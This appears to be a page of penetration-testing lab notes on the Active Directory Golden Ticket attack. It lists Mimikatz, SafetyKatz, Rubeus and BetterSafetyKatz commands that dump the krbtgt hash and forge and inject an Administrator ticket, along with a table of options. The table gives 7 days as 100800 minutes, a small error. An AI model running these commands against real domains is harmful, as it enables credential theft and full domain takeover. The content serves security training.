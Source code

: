 # Golden Ticket

Golden ticket is signed and encrypted by the hash of krbtgt account which makes it a valid TGT ticket.

Using Golden ticket can be used to impersonate any user with any privileges.

## Obtain krbtgt hash

There are multiple ways to get the krbtgt account hash

```powershell
# Execute on DC as Domain Admin
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

# DCSync to get AES keys
# Needs Domain admin or Replication Rights
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

Use `klist` on any machine to check tickets available and `klist purge` to remove all of them. Use these from **Rubeus** module for OPsec safe.

## Create The Ticket

{% code overflow="wrap" %}
```powershell
# Forge a Golden Ticket with attributes similar to normal TGT
Rubeus.exe golden /aes256:<krbtgt_token> /sid:<sid_of_current_domain> /ldap /user:Administrator /printcmd

# Another way
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<user_sid> /aes256:<aes_key> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"

dir \\dcorp-dc\c$ # check if worked
```
{% endcode %}

<table><thead><tr><th width="318">Options</th><th width="431"></th></tr></thead><tbody><tr><td>kerberos::golden</td><td>Name of the module</td></tr><tr><td>/User:Administrator</td><td>Username for which the TGT is generated</td></tr><tr><td>/domain:</td><td>Domain FQDN</td></tr><tr><td>/sid:</td><td>SID of the domain</td></tr><tr><td>/aes256:</td><td>AES256 keys of the krbtgt account</td></tr><tr><td>/id:500 /groups:512</td><td>Optional User and Group RID</td></tr><tr><td>/ptt or /ticket</td><td>ptt: inject ticket to current process<br>ticket: saves ticket to a file</td></tr><tr><td>/startoffset:0</td><td>Optional when the ticket is available in minutes.<br>Use negative for a ticket available from past and a larger number for future.</td></tr><tr><td>/endin:600</td><td>Optional ticket lifetime in minutes. (default <strong>10</strong> years)<br>The default AD setting is 10 hours = 600 minutes</td></tr><tr><td>/renewmax:10080</td><td>Optional ticket lifetime with renewal in minutes. (default is <strong>10</strong> years)<br>The default AD setting is 7 days = 100800</td></tr></tbody></table>
